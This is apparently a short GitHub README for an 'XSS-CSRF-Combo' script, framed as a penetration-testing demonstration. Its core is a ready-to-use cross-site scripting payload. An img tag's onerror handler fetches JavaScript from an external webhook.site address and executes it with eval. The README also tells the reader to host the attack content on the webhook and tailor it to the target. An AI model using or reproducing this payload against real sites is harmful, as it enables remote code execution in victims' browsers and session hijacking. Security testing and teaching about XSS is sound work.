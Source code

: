 # XSS-CSRF-Combo
A small useful script combining combined XSS and CSRF to demonstrate real life attack during a penetration testing assessment. Note that I did not develop the script myself.
# Disclaimer : Use at your own risk.

# XSS payload
 "><img src=g onerror="fetch('https://webhook.site/72fb0516-37f4-4597-aec2-a710337bfeef').then(r=>r.text()).then(d=>eval(d))">

 To perform the attack scenario, deploy the javascript content on your webhook. Note that, the content needs to be adjusted based on the target.

